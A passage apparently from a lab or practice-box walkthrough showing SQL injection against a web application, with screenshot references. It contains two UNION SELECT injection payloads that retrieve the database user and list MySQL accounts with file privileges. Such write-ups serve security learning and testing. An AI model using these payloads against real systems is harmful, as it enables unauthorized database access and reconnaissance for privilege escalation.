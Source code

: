![](/assets/images/hackme/screenshot-9.png)

Retrieving the user that the web application is using to connect to the database.

`' and 1=2 union select user(),2,3 #`

![](/assets/images/hackme/screenshot-10.png)

Retrieving users with file privileges enabled.

`' and 1=2 union select user,2,3 from mysql.user where file_priv='Y' #`

![](/assets/images/hackme/screenshot-11.png)
